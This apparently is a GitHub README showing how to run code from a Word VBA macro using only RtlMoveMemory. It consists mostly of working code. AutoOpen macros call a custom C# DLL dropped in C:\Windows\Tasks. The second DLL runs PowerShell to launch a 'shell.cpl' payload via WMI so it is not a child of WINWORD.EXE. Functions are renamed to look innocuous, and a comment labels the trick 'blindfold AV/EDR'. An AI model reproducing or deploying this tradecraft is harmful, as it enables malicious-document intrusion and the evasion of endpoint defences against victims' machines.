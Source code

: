 # ExecuteVBAwithRtlMoveMemory
Execute your VBA macro with RtlMoveMemory only
One can replace the ref to API with:

Private Declare PtrSafe Sub Day Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As LongPtr)

VBA NewMacro:
```
Declare PtrSafe Sub DateAdd Lib "C:\Windows\Tasks\MoveMem.dll" (Destination As Any, Source As Any, ByVal Length As LongPtr)

Function Magic() As IUnknown
    MsgBox "Hello ..."
End Function


Sub AutoOpen()
    DateAdd Magic(), &H0, 4
End Sub
```

C# MoveMem.dll contains function RtlMoveMemory:
compile with csc.exe and entrypoint is inserted with .export [1]

```
using System;
using System.Runtime.InteropServices;

namespace Code
{

    public class Program
    {
        public static unsafe void DateAdd(IntPtr Destination, IntPtr Source, byte Length)
        {
            MoveMemory(Destination, Source, Length);
        }

        [DllImport("Kernel32.dll", EntryPoint="RtlMoveMemory", SetLastError=false)]
        static unsafe extern void MoveMemory(IntPtr dest, IntPtr src, byte size);
    }
}
```



Another example, call RtlMoveMemory from VBA and start process with WMI or Start-Process, not a subprocess of WINWORD.EXE

VBA NewMacros:
```
Declare PtrSafe Sub DateAdd Lib "C:\Windows\Tasks\MoveMem.dll" (Destination As Any, Source As Any, ByVal Length As LongPtr)
Declare PtrSafe Sub DateDiff Lib "C:\Windows\Tasks\MoveMem.dll" ()

Function Magic() As IUnknown
    DateDiff
End Function

Sub AutoOpen()
    DateAdd Magic(), &H0, 4
End Sub
```

C# code, compiled with csc.exe and entrypoints created with .export [1] and .export [2]

```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace Code
{
    public class Program
    {
        public static unsafe void DateAdd(IntPtr Destination, IntPtr Source, byte Length)
        {
            AddMinutes(Destination, Source, Length);
        }
				public static unsafe void DateDiff()
        {
//          This examples startes a new process, not a subprocess of WINWORD.EXE
//          WMI example:
  					string ScriptToRun = "Set-ExecutionPolicy Unrestricted -scope Process -force;$pclass=[wmiclass]'root\\cimv2:Win32_Process';$new_pid=$pclass.Create('C:\\Windows\\System32\\rundll32 shell32,Control_RunDLL C:\\Windows\\Tasks\\shell.cpl', '.', $null).ProcessId";
//         Start-Process example:
//				 string ScriptToRun = "Set-ExecutionPolicy Unrestricted -scope Process -force;$cmd=\"C:\\Windows\\system32\\rundll32.exe\";$args=\"shell32,Control_RunDLL C:\\Windows\\Tasks\\shell.cpl\";start-process -PassThru $cmd $args;";
            var runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();
            var scriptInvoker = new RunspaceInvoke(runspace);
            scriptInvoker.Invoke(ScriptToRun);
            runspace.Close();
            runspace.Dispose();
        }
//      blindfold AV/EDR
				class Monday { public const string day = "RtlMoveMemory"; }
        [DllImport("Kernel32.dll", EntryPoint=Monday.day, SetLastError=false)]
        static unsafe extern void AddMinutes(IntPtr dest, IntPtr src, byte size);
    }
}

```
